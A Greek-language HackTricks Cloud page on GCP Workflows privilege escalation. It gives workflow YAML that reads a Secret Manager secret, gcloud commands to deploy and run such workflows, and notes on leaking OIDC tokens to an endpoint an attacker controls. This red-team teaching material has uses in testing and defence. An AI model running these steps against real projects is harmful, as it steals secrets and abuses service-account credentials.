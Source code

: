 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Βασικές Πληροφορίες:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Όπως γνωρίζω, δεν είναι δυνατόν να αποκτήσετε πρόσβαση σε ένα shell με πρόσβαση στο endpoint μεταδεδομένων που περιέχει τα διαπιστευτήρια SA του SA που επιτίθεται σε ένα Workflow. Ωστόσο, είναι δυνατόν να καταχραστείτε τις άδειες του SA προσθέτοντας τις ενέργειες που πρέπει να εκτελούνται μέσα στο Workflow.

Είναι δυνατόν να βρείτε την τεκμηρίωση των συνδετήρων. Για παράδειγμα, αυτή είναι η [**σελίδα του συνδετήρα Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Στη γραμμή πλοήγησης είναι δυνατόν να βρείτε αρκετούς άλλους συνδετήρες.

Και εδώ μπορείτε να βρείτε ένα παράδειγμα ενός συνδετήρα που εκτυπώνει ένα μυστικό:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Ενημέρωση από το CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Αν λάβετε ένα σφάλμα όπως `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, απλά **περιμένετε ένα λεπτό και δοκιμάστε ξανά**.

Αν δεν έχετε πρόσβαση στο διαδίκτυο, είναι δυνατόν να ενεργοποιήσετε και να δείτε την εκτέλεση ενός Workflow με:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Μπορείτε επίσης να ελέγξετε την έξοδο προηγούμενων εκτελέσεων για να αναζητήσετε ευαίσθητες πληροφορίες
{% endhint %}

Σημειώστε ότι ακόμη και αν λάβετε ένα σφάλμα όπως `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` επειδή δεν έχετε αυτή την άδεια, η ροή εργασίας έχει δημιουργηθεί.

### Διαρροή OIDC token (και OAuth?)

Σύμφωνα [**με τα έγγραφα**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), είναι δυνατόν να χρησιμοποιηθούν βήματα ροής εργασίας που θα στείλουν ένα HTTP αίτημα με το OAuth ή OIDC token. Ωστόσο, όπως και στην περίπτωση του [Cloud Scheduler](gcp-cloudscheduler-privesc.md), το HTTP αίτημα με το Oauth token πρέπει να είναι προς τον κεντρικό υπολογιστή `.googleapis.com`.

{% hint style="danger" %}
Επομένως, είναι **δυνατό να διαρρεύσει το OIDC token υποδεικνύοντας ένα HTTP endpoint** που ελέγχεται από τον χρήστη, αλλά για να διαρρεύσει το **OAuth** token θα χρειαστείτε **μια παράκαμψη** για αυτή την προστασία. Ωστόσο, μπορείτε ακόμα να **επικοινωνήσετε με οποιοδήποτε GCP api για να εκτελέσετε ενέργειες εκ μέρους του SA** χρησιμοποιώντας είτε συνδέσμους είτε HTTP αιτήματα με το OAuth token.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Με αυτή την άδεια αντί για `workflows.workflows.create` είναι δυνατή η ενημέρωση ενός ήδη υπάρχοντος workflow και η εκτέλεση των ίδιων επιθέσεων.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
